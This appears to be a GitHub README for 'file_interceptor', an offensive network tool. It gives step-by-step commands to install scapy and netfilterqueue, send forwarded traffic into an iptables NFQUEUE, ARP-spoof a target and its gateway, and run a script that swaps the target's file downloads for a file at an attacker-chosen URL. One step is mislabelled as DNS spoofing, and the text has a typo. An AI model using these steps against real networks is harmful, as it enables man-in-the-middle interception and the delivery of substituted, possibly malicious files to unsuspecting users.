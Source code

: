 # file_interceptor

* Install scupy
`pip install scapy`
* Install netfilterqueue
`pip install netfilterqueue`
* Create queue
`iptables -I FORWARD -j NFQUEUE --queue-num 0`
* Run arp spoofing script
`python arp_spoofing.py -t target_ip -g gateway_ip`
* Run dns_spoofing script
`python file_interceptor.py -u url_with_file`

Run script with --help to get help
`python file_interceptor.py --help`
